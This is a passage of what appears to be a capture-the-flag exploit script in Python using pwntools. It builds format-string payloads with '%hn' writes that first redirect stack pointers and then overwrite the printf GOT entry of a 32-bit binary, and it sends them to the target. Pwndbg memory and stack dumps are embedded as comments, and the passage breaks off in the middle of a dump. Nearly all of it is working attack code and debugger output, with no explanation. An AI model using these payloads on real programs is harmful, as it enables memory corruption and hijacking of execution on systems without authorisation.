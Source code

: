 ```python
payload = "%{}c%{}$hn".format((stack + 0x1c) & 0xffff, 0x15)
#  payload += "%{}c%{}$hn".format((stack + 0x2c) & 0xffff - (stack + 0x1c) & 0xffff, 0x16)
payload += "%{}c%{}$hn".format(0x10, 0x16)
payload += '22222222\0'
info(payload)
io.sendafter("11111111", payload)
pause()

'''
pwndbg> x/3s 0x804a060
0x804a060 <buf>:	"%40976c%57$hn%2"...
0x804a06f <buf+15>:	"c%59$hn33333333"
0x804a07e <buf+30>:	""
pwndbg> stack 25
00:0000│ esp  0xffa077c0 —▸ 0x804a060 (buf) ◂— 0x39303425 ('%409')
01:0004│      0xffa077c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffa077c8 ◂— 0x4
03:000c│      0xffa077cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffa077d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
05:0014│      0xffa077d4 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffa077d8 —▸ 0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
07:001c│      0xffa077dc —▸ 0x8048584 (play+59) ◂— nop
08:0020│      0xffa077e0 —▸ 0xf7eb0d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│      0xffa077e4 ◂— 0x0
0a:0028│      0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
0b:002c│      0xffa077ec —▸ 0x80485b1 (main+42) ◂— nop
0c:0030│      0xffa077f0 —▸ 0xf7eb03dc (__exit_funcs) —▸ 0xf7eb11e0 (initial) ◂— 0x0
0d:0034│      0xffa077f4 —▸ 0xffa07810 ◂— 0x1
0e:0038│      0xffa077f8 ◂— 0x0
0f:003c│      0xffa077fc —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
10:0040│      0xffa07800 ◂— 0x1
11:0044│      0xffa07804 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
12:0048│      0xffa07808 ◂— 0x0
13:004c│      0xffa0780c —▸ 0xf7d15276 (__libc_start_main+246) ◂— add    esp, 0x10
14:0050│      0xffa07810 ◂— 0x1
15:0054│      0xffa07814 —▸ 0xffa078a4 —▸ 0xffa077dc —▸ 0x8048584 (play+59) ◂— nop
16:0058│      0xffa07818 —▸ 0xffa078ac —▸ 0xffa077ec —▸ 0x80485b1 (main+42) ◂— nop
17:005c│      0xffa0781c ◂— 0x0
... ↓
'''
#  gdb.attach(io, "b *do_fmt+64\nc")
payload = "%{}c%{}$hn".format(elf.got['printf'] & 0xffff, 0x39)
#  payload += "%{}c%{}$hn".format((elf.got['printf'] & 0xffff + 2) - (elf.got['printf'] & 0xffff), 0x3b)
payload += "%{}c%{}$hn".format(2, 0x3b)
payload += "33333333\0"
info(payload)
io.sendafter("22222222", payload)
pause()

'''
pwndbg> x/3s 0x804a060
0x804a060 <buf>:	"%211c%11$hhn%31"...
0x804a06f <buf+15>:	"325c%7$hn444444"...
0x804a07e <buf+30>:	"44"
pwndbg> stack 25
00:0000│ esp  0xffa077c0 —▸ 0x804a060 (buf) ◂— 0x31313225 ('%211')
01:0004│      0xffa077c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffa077c8 ◂— 0x4
03:000c│      0xffa077cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffa077d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
05:0014│      0xffa077d4 —▸ 0xf7eb0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffa077d8 —▸ 0xffa077e8 —▸ 0xffa077f8 ◂— 0x0
```